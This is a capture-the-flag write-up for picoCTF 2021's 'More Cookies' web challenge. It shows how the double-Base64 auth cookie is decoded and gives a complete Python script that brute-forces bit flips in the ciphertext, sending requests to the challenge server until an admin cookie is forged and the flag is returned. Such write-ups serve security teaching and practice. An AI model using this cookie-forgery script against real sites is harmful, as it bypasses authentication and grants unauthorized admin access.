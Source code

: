 # More Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 90
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! 

http://mercury.picoctf.net:15614/

Hints:
1. https://en.wikipedia.org/wiki/Homomorphic_encryption
2. The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name
```

## Solution

Browse to the web site with your browser (I used Google Chrome).   
Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
There is a cookie named `auth_name` with a value that looks like Base64-encoded data.

### Analyse the cookie

Lets decode it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d
3FOkeVgV5m1nsFIXcA+hTMMBrkzTIXj0Rr0m/5O9JSZW7wmvUBvYcDb0Zu5hOi2XOXP06q+ZYPVw1OWmZ5dgG9jxpsOIvLhpIIfAuW03mrjLQUilw+eLeYDjbUwpoDFc
```

Looks like Base64 again.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | base64 -d
�S�yX�mg�Rp�L��L�!x�F�&���%&V�  �Pp6�f�a:-�9s�ꯙ`�p���g�`��È��i ���m7���AH����y��mL)�1\

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | xxd -g 1   
00000000: 33 46 4f 6b 65 56 67 56 35 6d 31 6e 73 46 49 58  3FOkeVgV5m1nsFIX
00000010: 63 41 2b 68 54 4d 4d 42 72 6b 7a 54 49 58 6a 30  cA+hTMMBrkzTIXj0
00000020: 52 72 30 6d 2f 35 4f 39 4a 53 5a 57 37 77 6d 76  Rr0m/5O9JSZW7wmv
00000030: 55 42 76 59 63 44 62 30 5a 75 35 68 4f 69 32 58  UBvYcDb0Zu5hOi2X
00000040: 4f 58 50 30 36 71 2b 5a 59 50 56 77 31 4f 57 6d  OXP06q+ZYPVw1OWm
00000050: 5a 35 64 67 47 39 6a 78 70 73 4f 49 76 4c 68 70  Z5dgG9jxpsOIvLhp
00000060: 49 49 66 41 75 57 30 33 6d 72 6a 4c 51 55 69 6c  IIfAuW03mrjLQUil
00000070: 77 2b 65 4c 65 59 44 6a 62 55 77 70 6f 44 46 63  w+eLeYDjbUwpoDFc
```

Since the encryption is [Homomorphic](https://en.wikipedia.org/wiki/Homomorphic_encryption), changes made to the encrypted form will also affect the decrypted form.  
We can exploit this with a [Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack).

### Write a brute force solver

Lets write a brute force solver script that bit-flips each bit for each byte in the cookie
```python
#!/usr/bin/python

import requests
from base64 import b64decode, b64encode
import re

URL = 'http://mercury.picoctf.net:15614/'
COOKIE = "auth_name"
FLAG_FORMAT = r'picoCTF{[^}]+}'

# Get the cookie
s = requests.Session()
r = s.get(URL)
cookie = s.cookies[COOKIE]
raw_cookie = bytearray(b64decode(b64decode(cookie)))

# Brute force bit-flipping
flag_found = False
for index in range(len(raw_cookie)):
    for i in range(8):
        mask = 1 << i
        #print(f"Bit-flipping index {index} with mask {hex(mask)}")
        raw_cookie[index] ^= mask
        
        flipped_cookie = b64encode(b64encode(raw_cookie)).decode("ascii")
        r = requests.get(URL, cookies = {COOKIE: flipped_cookie})
        match = re.search(FLAG_FORMAT, r.text)
        if match:
            flag_found = True
            print(f"Bit-flipped index {index} with mask {hex(mask)}")
            print(f"Flag: {match.group(0)}")
            break
        raw_cookie[index] ^= mask
    if flag_found:
        break
```

### Get the flag

Then we make sure the script is executable and run it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ chmod +x get_flag.py 

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ ./get_flag.py
Bit-flipped index 9 with mask 0x1
Flag: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
- [Wikipedia - Homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption)
- [Wikipedia - Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack)
